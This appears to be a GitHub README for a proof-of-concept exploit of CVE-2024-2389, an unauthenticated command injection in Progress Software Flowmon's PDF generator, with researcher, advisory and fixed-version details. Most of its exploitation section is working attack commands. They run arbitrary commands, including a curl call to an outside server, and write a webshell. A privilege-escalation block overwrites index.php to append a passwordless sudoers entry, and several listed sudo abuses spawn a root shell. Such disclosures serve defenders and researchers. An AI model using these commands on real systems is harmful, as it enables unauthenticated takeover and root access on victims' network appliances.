 # CVE-2024-2389: Progress Software Flowmon Unauthenticated Command Injection

## Information
**Description:** This exploits an unauthenticated command injection in the Progress Software Flowmon application.  
**Versions Affected:** Tested on v12.03.02  
**Version Fixed:** 12.3.5/11.1.14  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-2389  
**Vendor Advisory:** https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability  

## Proof-of-Concept Exploit
### Description
This exploit a command injection flaw in an unauthenticated PDF generator endpoint affecting PdfGenerator.php.  

### Usage/Exploitation
To run a blind command:  
`python3 CVE-2024-2389 --cmd 'curl a.server' TARGET`

To write a simple webshell:  
`python3 CVE-2024-2389 --web-shell TARGET`  
Then visit TARGET/rce.php  

A root shell can be obtained through several methods:
```
cp /var/www/shtml/index.php /tmp/index.php.bak;
echo '<?php system("echo \"ADMINS ALL=(ALL) NOPASSWD: ALL\" >> /etc/sudoers"); ?>' > /var/www/shtml/index.php;
sudo /usr/bin/php /var/www/shtml/index.php Cli\:AddNewSource s;
cp /tmp/index.php.bak /var/www/shtml/index.php;

# ip command:
sudo ip netns add foo
sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
sudo ip netns exec bar /bin/bash
sudo ip netns delete foo
sudo ip netns delete bar

# Abusing the timedatectl command:
sudo timedatectl list-timezones
!/bin/bash

#Abusing journalctl
sudo journalctl
!/bin/bash
```

### Screenshot
![poc_image](https://github.com/RhinoSecurityLabs/CVEs/assets/41924355/56e95c42-3541-4768-862d-7d272db6ee8f)
